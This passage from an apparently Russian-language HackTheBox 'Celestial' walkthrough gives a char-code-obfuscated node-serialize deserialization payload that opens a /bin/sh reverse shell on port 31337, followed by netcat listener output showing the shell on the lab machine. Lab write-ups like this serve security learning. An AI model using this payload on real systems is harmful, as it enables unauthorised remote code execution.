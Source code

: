 ```
{"username": "3v3l_h4ck3r", "country": "Shangri-La", "city": "Civitas Solis", "num": "13373", "run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,32,32,32,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,32,32,32,32,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,32,32,32,32,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,32,32,32,32,80,79,82,84,61,34,51,49,51,51,55,34,59,10,32,32,32,32,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,32,32,32,32,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,32,32,32,32,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,10,32,32,32,32,99,40,72,79,83,84,44,80,79,82,84,41,59,10,32,32,32,32))}()"}
```

Переводим в base64 и отправляем в Burp (не забыв при этом поднять слушателя на фоне на 31337 порт):

[![port3000-burp-2.png](/assets/images/htb/machines/celestial/port3000-burp-2.png)](/assets/images/htb/machines/celestial/port3000-burp-2.png)
{:.center-image}

# Внутри машины
А тем временем:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:32968.
Connected!

ls
Desktop
Documents
Downloads
examples.desktop
Music
node_modules
output.txt
Pictures
Public
server.js
Templates
Videos
```
